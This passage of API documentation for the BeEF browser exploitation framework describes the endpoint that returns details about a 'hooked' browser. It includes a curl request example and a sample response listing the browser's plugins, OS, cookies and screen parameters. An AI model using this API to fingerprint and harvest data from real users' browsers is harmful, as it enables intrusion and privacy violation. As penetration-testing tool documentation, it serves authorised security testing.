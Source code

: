 ```
                "session": "26bxiMKoFfOeBgcvIV84qeOsEULKQIEYDH4djMbMPeoAZU4yySMIlJJ7GrAMwuMa0eX9wCKk24KOsCoT",
                "ip": "127.0.0.1",
                "domain": "127.0.0.1",
                "port": "3000",
                "page_uri": "http://127.0.0.1:3000/demos/basic.html"
}}}}
```

## Browser Details

### Handler
* **Endpoint**
  * `GET /api/hooks/{session}?token={token}`
* **Description**
  * Provides information (browser and OS version, cookies, enabled plugins, etc) about a **specific** hooked browser.
* **Request Components** 
  * `{session}` - session ID of the hooked browser. This ID is the `session_key` value returned in the response to the [`/api/hooks`](#hooked-browsers) request.
* **Query Parameters**
  * `{token}` - your authentication token (see [Authentication](#authentication))

### Example

#### Request

```bash
curl http://beefserver.com:3000/api/hooks/nBK3BGBILYD0bNMC1IH299oDbZXNNXKfwMEoDwajmItAHhhhe8LLnEPvO3wFjg1rO4PzXsBbUAK1V0gk?token=320f3cf4da7bf0df7566a517c5db796e73a23f47
```

#### Response

```
{ 
  "BrowserName": "O",
  "BrowserPlugins": "Shockwave Flash\nJava Applet Plug-in\nQuickTime Plug-in 7.7.1\nSharePoint Browser Plug-in\nSilverlight Plug-In\nWebEx64 General Plugin Container",
  "BrowserReportedName": "Opera/9.80 (Macintosh; Intel Mac OS X 10.7.3; U; en) Presto/2.10.229 Version/11.62",
  "BrowserType": "{"O11":true,"O":true}",
  "BrowserVersion": "11",
  "Cookies": "BEEFHOOK=nBK3BGBILYD0bNMC1IH299oDbZXNNXKfwMEoDwajmItAHhhhe8LLnEPvO3wFjg1rO4PzXsBbUAK1V0gk",
  "HasActiveX": "No",
  "HasFlash": "Yes",
  "HasGoogleGears": "No",
  "HasWebSocket": "No",
  "HostName": "127.0.0.1",
  "JavaEnabled": "Yes",
  "OsName": "Macintosh",
  "PageReferrer": "No Referrer",
  "PageTitle": "BeEF Basic Demo",
  "PageURI": "http://127.0.0.1:3000/demos/basic.html",
  "ScreenParams": "{"width"=>1680, "height"=>1050, "colordepth"=>32}",
  "SystemPlatform": "MacIntel",
  "VBScriptEnabled": "No",
  "WindowSize": "{"width"=>1000, "height"=>729}",
  "hasPersistentCookies": "Yes",
  "hasSessionCookies": "Yes"
}
```
